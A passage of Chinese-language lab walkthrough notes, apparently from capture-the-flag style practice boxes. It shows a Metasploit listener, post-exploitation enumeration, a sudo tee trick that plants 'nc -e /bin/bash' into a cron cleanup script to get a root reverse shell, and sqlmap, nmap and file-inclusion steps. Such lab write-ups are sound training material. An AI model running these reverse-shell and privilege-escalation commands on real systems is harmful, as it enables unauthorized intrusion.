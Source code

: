     选exploit(multi/handler)

    设置meterpreter payload，设置监听ip

    run或者exploit,打开监听

    ```

* 反弹shell后

    使用meterpreter的`shell`命令获取操作系统

    有python环境可以用python启动虚拟终端`python -c 'import pty;pty.spawn("/bin/bash")'`

    得到一个用户权限之后

    先`cat /etc/passwd`看一下有哪些用户值得关注，哪些是/bin/bash环境

    使用`history`查看当前用户命令历史

    使用`sudo -l`查看当前用户权限

* tee + 定时任务 + nc反弹shell

    tee 命令：用来将标准输入的内容输出到标准输出并可以保存为文件

    ```s

    echo "nc -e /bin/bash 192.168.110.128 5555" > shell.txt
    (没写权限记得换文件夹，tmp就不错)

    cat shell.txt | sudo /usr/bin/tee /usr/share/cleanup/tidyup.sh

    kali: nc -lvp 5555
    ```

# 二：billux:box

## 流程

* 主机发现

    先扫C段找到目标主机，中途直接用vmware切换网络连接方式可能会找不到对应ip，主机开放`80`和`22`端口，对应`http`和`ssh`服务

* 端口扫描

    `nmap -sV -A 192.168.197.134`

* 访问web页面

    * 发现是一个登录框，查看源码之后发现有个弹窗脚本，每次提交必弹`try again`

    * sqlmap注入:`sqlmap -u "http://192.168.197.134" --data "un=asd&ps=asdd&login=let%27s+login" --dbms mysql`   无果

    * 目录爆破`test.php、add.php、in.php、c.php、index.php、show.php`  `目录:uploaded_images,phpmy`(dirsearch速度和效率上确实没得说)

    * `test.php`有一个文件包含漏洞，POST方式传参可以成功，发现`/etc/passwd`中有`ica:x:1000:1000:ica,,,:/home/ica:/bin/bash`,也就是说可以用root和ica账户登录
        